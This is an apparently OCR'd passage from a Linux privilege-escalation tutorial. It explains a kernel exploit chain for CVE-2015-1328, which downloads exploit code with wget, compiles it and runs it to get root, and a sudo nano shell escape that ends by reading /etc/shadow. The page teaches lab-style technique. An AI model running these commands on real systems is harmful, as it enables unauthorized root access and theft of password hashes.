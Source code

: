 **Word-by-Word Explanation**:
- `uname -a`: 
  - `uname`: Command to display system information.
  - `-a`: Option to show all details (kernel version, OS, architecture).
  - *Purpose*: Reveals the kernel version (`3.13.0-24-generic`), which we use to find a matching exploit.
- `wget http://exploit-db.com/exploits/37292.c -O exploit.c`:
  - `wget`: Downloads files from the web.
  - `http://exploit-db.com/exploits/37292.c`: URL of an exploit for CVE-2015-1328, a kernel vulnerability.
  - `-O exploit.c`: Saves the file as `exploit.c`.
  - *Purpose*: Retrieves exploit code tailored for the kernel version.
- `gcc exploit.c -o exploit`:
  - `gcc`: GNU compiler to compile C code.
  - `exploit.c`: The exploit source file.
  - `-o exploit`: Names the compiled binary `exploit`.
  - *Purpose*: Converts the C code into an executable program.
- `./exploit`:
  - `./`: Runs the executable in the current directory.
  - `exploit`: The compiled exploit binary.
  - *Purpose*: Executes the exploit, which manipulates the kernel bug to grant a root shell.
- `whoami`:
  - `whoami`: Prints the current user.
  - *Purpose*: Confirms you’re now `root`.
- `cat /root/secret.txt`:
  - `cat`: Displays file contents.
  - `/root/secret.txt`: A root-only file.
  - *Purpose*: Demonstrates root access by reading a restricted file.

**Risks**: Kernel exploits can crash the system. Always verify the exploit’s compatibility and test in a safe environment.

---

### 2. Sudo Misconfigurations

**Description**: The `sudo` command allows users to run programs as root. If a user has `sudo` access to certain commands, these can be exploited to gain a root shell or access restricted resources.

**Example**:
```bash
# Check sudo permissions
sudo -l
# Output: User karen may run the following commands on target:
#       (root) NOPASSWD: /usr/bin/nano

# Exploit nano to spawn a root shell
sudo nano
# Inside nano, press Ctrl+R, Ctrl+X, then type:
reset; sh 1>&0 2>&0
# Spawns root shell
whoami
# Output: root
cat /etc/shadow
# Output: root:$6$...:0:99999:7:::
```
